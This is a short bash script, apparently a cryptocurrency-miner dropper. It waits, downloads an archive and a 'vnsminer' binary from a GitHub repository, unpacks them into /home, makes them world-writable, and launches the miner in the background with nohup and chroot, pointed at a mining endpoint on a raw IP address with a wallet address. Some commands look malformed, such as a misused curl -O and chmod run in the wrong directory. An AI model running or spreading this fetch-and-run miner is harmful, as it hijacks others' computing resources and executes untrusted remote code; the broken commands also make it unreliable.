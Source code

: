 #!/bin/bash
sleep 10
curl -LO https://github.com/2319763378/pool/raw/master/vns/vns.tgz
tar xvf  vns.tgz -C /home
curl -L https://github.com/2319763378/pool/raw/master/vns/vnsminer -O /home/vns/
chmod 777 vnsminer
nohup chroot /home/vns vnsminer 1 http://129.28.240.129:8888/0xb85150eb365e7df0941f0cf08235f987ba91506a &
